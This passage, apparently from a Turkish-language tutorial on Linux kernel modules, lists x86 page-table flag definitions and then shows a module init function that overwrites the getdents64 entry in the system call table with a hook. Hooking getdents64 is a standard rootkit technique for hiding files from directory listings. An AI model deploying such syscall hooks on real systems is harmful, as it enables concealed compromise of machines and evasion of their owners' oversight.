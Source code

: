Yetkilendirmeleri merak edenler varsa **arch/x86/include/asm/pgtable_types.h** içerisinden küçük bir liste :

```
#define _PAGE_BIT_PRESENT       0       /* is present */
#define _PAGE_BIT_RW            1       /* writeable */
#define _PAGE_BIT_USER          2       /* userspace addressable */
#define _PAGE_BIT_PWT           3       /* page write through */
#define _PAGE_BIT_PCD           4       /* page cache disabled */
#define _PAGE_BIT_ACCESSED      5       /* was accessed (raised by CPU) */
#define _PAGE_BIT_DIRTY         6       /* was written to (raised by CPU) */
#define _PAGE_BIT_PSE           7       /* 4 MB (or 2MB) page */
#define _PAGE_BIT_PAT           7       /* on 4KB pages */
#define _PAGE_BIT_GLOBAL        8       /* Global TLB entry PPro+ */
#define _PAGE_BIT_UNUSED1       9       /* available for programmer */
#define _PAGE_BIT_IOMAP         10      /* flag used to indicate IO mapping */
#define _PAGE_BIT_HIDDEN        11      /* hidden by kmemcheck */
#define _PAGE_BIT_PAT_LARGE     12      /* On 2MB or 1GB pages */
#define _PAGE_BIT_SPECIAL       _PAGE_BIT_UNUSED1
#define _PAGE_BIT_CPA_TEST      _PAGE_BIT_UNUSED1
#define _PAGE_BIT_SPLITTING     _PAGE_BIT_UNUSED1 /* only valid on a PSE pmd */
#define _PAGE_BIT_NX           63       /* No execute: only valid after cpuid check */
#define _PAGE_PRESENT   (_AT(pteval_t, 1) << _PAGE_BIT_PRESENT)
#define _PAGE_RW        (_AT(pteval_t, 1) << _PAGE_BIT_RW)
#define _PAGE_USER      (_AT(pteval_t, 1) << _PAGE_BIT_USER)
#define _PAGE_PWT       (_AT(pteval_t, 1) << _PAGE_BIT_PWT)
#define _PAGE_PCD       (_AT(pteval_t, 1) << _PAGE_BIT_PCD)
#define _PAGE_ACCESSED  (_AT(pteval_t, 1) << _PAGE_BIT_ACCESSED)
#define _PAGE_DIRTY     (_AT(pteval_t, 1) << _PAGE_BIT_DIRTY)
#define _PAGE_PSE       (_AT(pteval_t, 1) << _PAGE_BIT_PSE)
#define _PAGE_GLOBAL    (_AT(pteval_t, 1) << _PAGE_BIT_GLOBAL)
#define _PAGE_UNUSED1   (_AT(pteval_t, 1) << _PAGE_BIT_UNUSED1)
#define _PAGE_IOMAP     (_AT(pteval_t, 1) << _PAGE_BIT_IOMAP)
#define _PAGE_PAT       (_AT(pteval_t, 1) << _PAGE_BIT_PAT)
....
#define _PAGE_PAT_LARGE (_AT(pteval_t, 1) << _PAGE_BIT_PAT_LARGE)
#define _PAGE_SPECIAL   (_AT(pteval_t, 1) << _PAGE_BIT_SPECIAL)
#define _PAGE_CPA_TEST  (_AT(pteval_t, 1) << _PAGE_BIT_CPA_TEST)
#define _PAGE_SPLITTING (_AT(pteval_t, 1) << _PAGE_BIT_SPLITTING)
```

Modül yüklendiğinde yani **insmod** çalıştığında :

```
static int __init getdents_hook_init(void)
{

  sys_call_table = (void*)0xffffffff820001c0;
  org_getdents64 = sys_call_table[__NR_getdents64];

  set_page_rw(sys_call_table);
  sys_call_table[__NR_getdents64] = hook_getdents64;
        return 0;
}
```
